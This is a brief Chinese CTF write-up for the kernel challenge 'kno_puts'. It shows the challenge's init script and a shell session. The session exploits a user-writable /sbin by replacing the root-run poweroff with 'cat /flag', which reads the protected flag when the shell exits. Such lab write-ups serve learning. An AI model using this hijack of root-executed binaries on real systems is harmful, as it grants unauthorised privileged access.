

# kno_puts

文件系统权限没设置好，非预期了。root启动`init`脚本，随后以1000身份将shell暴露给用户，
在shell运行结束后执行`poweroff`。结果`poweroff`是可写的，将其替换为`cat /flag` 后`exit`就可以拿flag

```bash
# /init
...
chmod 400 flag
insmod /test.ko
mknod -m 666 /dev/ksctf c `grep ksctf /proc/devices | awk '{print $1;}'` 0 
setsid /bin/cttyhack setuidgid 1000 /bin/sh 
poweroff -d 600 -f
```

```bash
$ which poweroff
/sbin/poweroff
$ ls -ld sbin 
drwxr-xr-x    2 1000     1000          1480 Sep 26 04:41 sbin
$ ls -l sbin/poweroff  
lrwxrwxrwx    1 1000     1000            14 Sep 26 18:02 sbin/poweroff -> ../bin/busybox
$ rm sbin/poweroff
$ echo 'cat /flag' > /sbin/poweroff
$ chmod +x /sbin/poweroff
$ exit
```



> 预期解好像考到缺页错误引发的暂停，有点超出我的知识范畴了
